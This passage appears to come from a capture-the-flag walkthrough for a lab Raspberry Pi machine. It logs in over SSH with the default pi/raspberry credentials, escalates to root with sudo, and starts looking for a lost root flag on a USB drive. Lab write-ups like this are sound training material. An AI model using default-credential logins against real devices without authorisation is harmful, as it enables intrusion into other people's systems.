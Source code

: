 ## Default Credentials

Enter the default credentials for raspbian.

* Username: pi
* Password: raspberry

```
root@kali:~# ssh pi@10.10.10.48
pi@10.10.10.48's password: raspberry
```

After getting into a shell with these credentials, you can find the location of the user key by executing the command below in the home directory. (Or you can browse around manually.)

`find . -name user.txt`

* `find` - looks for files recursively
* `.` - start search in current directory
* `-name user.txt` - filename to find is *user.txt*

## Privilege Escalation

Check our privileges with `id`.

```
pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
```

Yes! We are in the sudo group. Let's upgrade to a root shell.

`sudo -i`

* `sudo` - execute command as another user and when user is not specified, execute as root
* `-i` - simulates initial login by user which is root in this case

Now, let's get the root file.

```
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

Okay, let's look for the USB drive.

`lsblk` - lists block devices information in a friendly format

```
root@raspberrypi:~# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
```
According to the information above,the usb drive is mounted at **/media/usbstick**.
